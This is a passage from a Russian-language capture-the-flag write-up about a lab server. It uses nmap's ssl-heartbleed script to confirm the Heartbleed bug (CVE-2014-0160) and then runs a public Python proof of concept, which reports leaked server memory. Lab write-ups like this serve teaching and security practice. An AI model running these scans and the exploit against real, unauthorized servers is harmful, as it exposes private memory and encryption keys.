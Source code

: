 [![heartbleed_explanation.png](https://imgs.xkcd.com/comics/heartbleed_explanation.png)](https://imgs.xkcd.com/comics/heartbleed_explanation.png)
{:.center-image}

С помощью скриптового движка `nmap` подтвердим свое предположение относительно уязвимости сервера к Heartbleed:
```text
root@kali:~# nmap -n -v -sS -oN --script=ssl-heartbleed nmap/nse-ssl-heartbleed.nmap -p443 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.062s latency).

PORT    STATE SERVICE
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://cvedetails.com/cve/2014-0160/
|       http://www.openssl.org/news/secadv_20140407.txt 
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Aug 13 14:24:44 2018 -- 1 IP address (1 host up) scanned in 1.12 seconds
```

Уязвим! Воспользуемся Heartbleed-эксплойтом для атаки на сервер. Можно применить скрипт "из коробки", входящий в состав Metasploit, но я решил найти решение на просторах GitHub. Выбор пал на [следующий Proof-of-Concept](https://github.com/mpgn/heartbleed-PoC "mpgn/heartbleed-PoC: Hearbleed exploit to retrieve sensitive information"), написанный на Пайтоне. После загрузки запустим скрипт:
```text
root@kali:~# ./heartbleed-exploit.py 10.10.10.79
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
```
